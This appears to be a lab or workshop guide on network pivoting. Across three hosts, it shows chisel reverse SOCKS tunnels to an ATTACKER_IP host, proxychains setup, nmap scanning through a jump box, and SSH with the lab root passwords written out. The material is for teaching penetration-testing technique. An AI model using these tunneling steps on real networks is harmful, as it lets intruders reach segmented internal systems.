# Network Tunneling & Pivoting – Workshop Diagrams

## Network Topology
```mermaid
flowchart LR
  subgraph "Internal (172.16.5.0/24)"
    A[Attacker
    ------------
    *172.16.5.2*
    **root:root**]
    J[Jump
    ------------
    *172.16.5.3
    192.168.80.10*
    **root:hackme123**
    ]
  end

  subgraph "Secure (192.168.80.0/24)"
    S[Secure
    ------------
    *192.168.80.30*
    **root:Aa123456**
    ]
  end

  A <--> J
  J <--> S
```

**Legend**
- Solid lines = native routing reachability between hosts.
- Tunnels / proxies will be overlaid in the flow diagrams below.


## Step‑by‑Step Communication Flows & Commands

### Step 1 – Create a reverse SOCKS proxy via **Jump** (preferred for pivoting)
Goal: Get a SOCKS5 proxy that lets the **attacker** drive traffic through **Jump** into 192.168.80.0/24.

**Commands**
```bash
# On ATTACKER (listen for reverse connections)
chisel server -p 8000 --reverse

# On JUMP (connect out to attacker; create SOCKS on the SERVER side = ATTACKER)
chisel client ATTACKER_IP:8000 R:50001:socks
```
This creates a SOCKS5 listener on the **attacker** at `127.0.0.1:50001`.

**ProxyChains on attacker**
```bash
printf "\nsocks5\t127.0.0.1\t50001\n" | sudo tee -a /etc/proxychains4.conf
```

**Flow Diagram**
```mermaid
sequenceDiagram
  autonumber
  participant A as Attacker
  participant J as Jump

  A->>A: chisel server -p 8000 --reverse
  J->>A: chisel client ATTACKER_IP:8000 R:50001:socks
  Note over A,J: SOCKS5 now at 127.0.0.1:50001
  A->>J: SOCKS forwards traffic
```

### Step 2 – Use ProxyChains through **Jump** to reach **Secure**
With SOCKS on the **attacker**, you can already drive traffic to `192.168.80.30` via Jump.

**Examples**
```bash
# Enumerate Secure’s web app via the Jump SOCKS (remember: ICMP/ping won’t work over SOCKS)
proxychains nmap -sT -Pn 192.168.80.30
```

**Flow Diagram**
```mermaid
sequenceDiagram
  autonumber
  participant A as Attacker
  participant J as Jump
  participant S as Secure

  Note over A,J: SOCKS5 tunnel
  A->>J: SOCKS encapsulates nmap scan
  J->>S: nmap TCP connect scan
  S-->>J: TCP connect response
  J-->>A: TCP connect response encapsulated in SOCKS
```

### Step 3 – Add a second tunnel **from Secure back to Attacker** using the Jump path
Goal: Expose Secure’s port 80 on the attacker as a local port. This is handy for tools that don’t like SOCKS.

**Commands**
```bash
# Keep the Step 1 chisel server running on attacker (port 8000).
# On SECURE, route the client through the Jump path by using the SOCKS on the attacker (already exists at 127.0.0.1:50001)
# We’ll daisy-chain with proxy support so Secure can reach the attacker through Jump.

# On SECURE (first, SSH in from attacker via proxychains):
proxychains ssh root@192.168.80.30
# Password: Aa123456

# On SECURE (once logged in):
chisel server --socks5 -p 8001

# On ATTACKER
chisel client --proxy socks://127.0.0.1:50001 192.168.80.30:8001 50002:socks
```

**Result:** Attackers port 50002 tunnels traffic to Secure through Jump.

**Flow Diagram**
```mermaid
sequenceDiagram
  autonumber
  participant A as Attacker
  participant J as Jump
  participant S as Secure

  A->>J: SOCKS:5001(ssh root@192.168.80.30)
  J->>S: ssh root@192.168.80.30
  S-->>A: ssh connection
  S->>S: chisel server --socks5 -p 8001
  A->>J: SOCKS:5001(chisel 192.168.80.30:8001)
  J->>S: chisel 192.168.80.30:8001
  Note over A,S: SOCKS5 now at 127.0.0.1:50002
```

**Update ProxyChains**
```bash
sed -i 's/50001/50002/' /etc/proxychains4.conf
```

---

### Step 4 – Exploit the web app
Use proxychains to route traffic through the SOCKS:50002 proxy to access Secure:80.

**Examples**
```bash
proxychains bash

# Access Secure:80
curl -i http://127.0.0.1:80/
```

### Finally
```mermaid
flowchart LR
  A[Attacker
  *chisel:8000*
  *socks:50001*
  *socks:50002*]
  J[Jump
  *ssh:22*]
  S[Secure
  *ssh:22*
  *chisel:8001*]

  subgraph Internal
    J ==>|chisel:8000| A
    A ====|SOCKS:5001| J
  end
  A ===|"SOCKS:50001(chisel:8001)"| J
  subgraph Secure
    J ==>|chisel:8001| S
    A ===|SOCKS:50002| S
  end

  linkStyle 0 stroke:red;
  linkStyle 1 stroke:yellow;
  linkStyle 2 stroke:green;
  linkStyle 3 stroke:green;
  linkStyle 4 stroke:orange;
```
## Notes & Gotchas
- **DNS over SOCKS**: enable `proxy_dns` in `/etc/proxychains4.conf` if you need name resolution through the proxy.
- **ICMP isn’t proxied** via SOCKS (expect `ping` to fail). Use TCP scans (`-sT`) with `-Pn`.
- **Stability**: prefer `dynamic_chain` in ProxyChains; avoid `strict_chain` while testing.

